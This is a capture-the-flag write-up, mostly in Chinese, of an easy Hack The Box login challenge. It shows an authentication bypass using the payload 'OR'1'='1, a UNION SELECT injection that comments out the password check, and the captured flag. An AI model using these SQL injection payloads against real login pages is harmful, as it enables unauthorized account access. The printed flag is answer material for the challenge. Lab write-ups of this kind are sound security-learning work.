


# sanitize

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Can you escape the query context and log in as admin at my super secure login page?

你能突破查询限制，在我超级安全的登录页面以管理员身份登录吗？

:::

尝试直接访问


使用 `admin:admin` 进行访问



同时，在页面底部发现了执行查询的 sql 语句

```sql
select * from users where username = '123' AND password = '123';
```

首先，尝试使用 sqlmap 进行自动化攻击失败了，需要尝试手动注入

先分析查询语句

```sql
select * from users where username = '123' AND password = '123';
```

先尝试万能密码直接绕过

```plaintext
'OR'1'='1
```


直接得到了 flag

```flag
HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}
```

可以在 `username` 进行篡改，通过闭合引号和注释对后面的语句进行转义，控制整体的 sql 查询逻辑

```plaintext
username = 'UNION SELECT * FROM users --'
password = 1

payload = select * from users where username = ''UNION SELECT * FROM users --''AND password ='1';

--> payload = select * from users where username = '' UNION SELECT * FROM users
```

结果直接返回了 flag



不做深究，环境特性
